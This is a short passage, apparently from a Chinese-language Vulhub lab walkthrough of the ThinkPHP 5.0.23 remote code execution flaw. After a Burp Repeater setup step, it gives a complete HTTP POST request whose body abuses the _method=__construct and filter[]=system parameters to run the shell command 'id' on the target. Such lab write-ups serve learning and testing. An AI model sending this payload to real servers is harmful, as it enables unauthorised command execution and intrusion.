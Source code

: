 ![设置 HTTP 消息显示的字体大小](./../../../../images/Vulhub/thinkphp/ThinkPHP5%205.0.23%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/%E8%AE%BE%E7%BD%AE%20HTTP%20%E6%B6%88%E6%81%AF%E6%98%BE%E7%A4%BA%E7%9A%84%E5%AD%97%E4%BD%93%E5%A4%A7%E5%B0%8F.png)

数据包复制到 Repeater 模块中，配置目标

```
POST /index.php?s=captcha HTTP/1.1
Host: centos.local:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```
